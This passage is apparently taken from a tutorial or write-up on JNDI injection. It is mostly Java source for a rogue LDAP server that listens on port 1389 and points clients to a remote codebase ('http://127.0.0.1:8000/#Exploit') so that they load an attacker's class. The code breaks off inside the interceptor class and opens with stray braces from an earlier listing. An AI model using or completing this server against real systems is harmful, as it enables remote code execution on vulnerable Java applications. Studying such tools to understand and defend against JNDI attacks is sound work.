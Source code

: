```java
    }
}
```

**ldap**

```java
package com.JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LdapServer {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main (String[] args) {

        String url = "http://127.0.0.1:8000/#Exploit";
        int port = 1389;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
```